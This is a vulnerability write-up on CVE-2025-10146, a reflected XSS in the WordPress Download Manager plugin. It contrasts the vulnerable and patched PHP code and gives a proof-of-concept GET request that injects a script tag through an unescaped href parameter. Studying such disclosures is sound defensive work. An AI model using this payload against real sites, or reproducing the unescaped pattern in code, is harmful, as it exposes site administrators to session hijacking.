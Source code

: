 # CVE-2025-10146 Analysis & POC


<!--more-->

A vulnerability exists in the **Download Manager** plugin prior to version **3.3.24**. Data retrieved from **GET** requests is printed directly into **HTML attributes**, leading to **reflected XSS** when a user with privileges accesses a URL crafted by an attacker.

* **CVE ID**: [CVE-2025-10146](https://www.cve.org/CVERecord?id=CVE-2025-10146)
* **Product**: [WordPress Download Manager Plugin](https://wordpress.org/plugins/download-manager)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 3.3.23
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Download Manager**: v3.3.23(vulnerable) and v3.3.24(fixed)
* **diff tool**: **meld** or any tool capable of comparing differences between two versions

## Analysis

### Patch Diff

Use any diff tool to compare the vulnerable and patched versions. A significant difference appears in **src/Admin/views/stats/history.php**.

**Vulnerable code**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo $reset_url; ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

The **GET parameters** are directly assigned to the `<a>` element's **href** without any protection, creating a risk of **reflected XSS**.

**Patched code**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $get_params_xu = \WPDM\__\__::sanitize_array($get_params_xu, 'safetxt');

        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo esc_url($reset_url); ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

![Patch Diff](patch_diff.png "Patch Diff: sanitized GET parameters and escaped URL")

The patch **sanitizes** the **GET parameters** using `sanitize_array` and uses `esc_url` to **escape the URL**, making it safe.

### How It Works

We need to identify the real URL to inject GET parameters containing the XSS payload.

**src/Admin/views/stats/history.php** contains PHP and HTML tags inside the **views** folder, indicating it is included somewhere in the plugin.

Searching for `history.php` in the plugin directory:

![Search 1](search1.png "Search results for history.php")

👉 No direct matches are found. It is likely included dynamically like `{$file_name}.php`. Using regex `\{.*\}\.php`:

![Regex](regex.png "Regex search for dynamic includes")

**src/Admin/views/stats/history.php** is included in **src/Admin/views/stats.php**.

The actual URL to access is declared at the top of **stats.php**:

```
$base_page_uri = "edit.php?post_type=wpdmpro&page=wpdm-stats";
```

Similarly, **stats.php** is also included elsewhere, but it’s not necessary to trace further since the URL is identified.

To verify, we set a **breakpoint** in **src/Admin/views/stats/history.php**, start debugging, and access the URL:

```
edit.php?post_type=wpdmpro&page=wpdm-stats
```

![Debug](debug.png "Breakpoint debugging to observe GET params")

First, the plugin collects all **GET parameters** into `$get_params`.

If `$user_ids` is not empty, a **“Clear filter” button** is created. To make the button functional, it must generate a URL without the `user_ids` parameter:

```php
$get_params_xu = $get_params;        // copy all GET parameters
unset($get_params_xu['user_ids']);   // remove user_ids from array
$reset_url = add_query_arg($get_params_xu, 'edit.php'); // generate new URL
```

* `unset($get_params_xu['user_ids'])` removes the filter.
* `add_query_arg($get_params_xu, 'edit.php')` generates the URL with remaining parameters.

This URL is attached to the “Clear filter” button:

```php
<a href="<?php echo $reset_url; ?>" class="clear-btn">...</a>
```

**Result:** Clicking the button reloads the page without the `user_ids` filter.

## Exploit

### Detect XSS

Send a GET request containing the XSS payload:

```http
GET /wp-admin/edit.php?post_type=wpdmpro&page=wpdm-stats&user_ids[0]=1&payload="></a><script>alert(document.domain)</script> HTTP/1.1
```

The `"></a>` closes the `<a>` tag, followed by a `<script>` to trigger `alert()`.

![XSS](xss.png "Reflected XSS triggered via GET parameter")

👉 XSS succeeds. When a user with privileges accesses the attacker-provided URL, **reflected XSS** occurs, simulating an **Unauthenticated attack** scenario.

## Conclusion

The vulnerability **CVE-2025-10146** in **WordPress Download Manager <= 3.3.23** is a **reflected XSS**, occurring when **GET request** data is printed directly into an **HTML attribute** without sanitization or escaping. Privileged users accessing the attacker-crafted URL may be exploited.

The patch in **3.3.24**:

1. **Sanitizes GET parameters** (`sanitize_array`) to remove dangerous characters.
2. **Escapes URL** (`esc_url`) before rendering in HTML to prevent XSS.

**Key takeaways**:

* Always **sanitize and escape user input** before rendering in HTML.
* Check **user permissions** before processing or displaying sensitive data.
* Low-privilege roles (like contributor) can become attack vectors if the plugin does not enforce proper protections.
* Updating plugins regularly is a simple and effective defense.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Download Manager Plugin <= 3.3.24 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/download-manager/vulnerability/wordpress-download-manager-plugin-3-3-23-reflected-cross-site-scripting-via-user-ids-parameter-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-06-cve-2025-10146/  

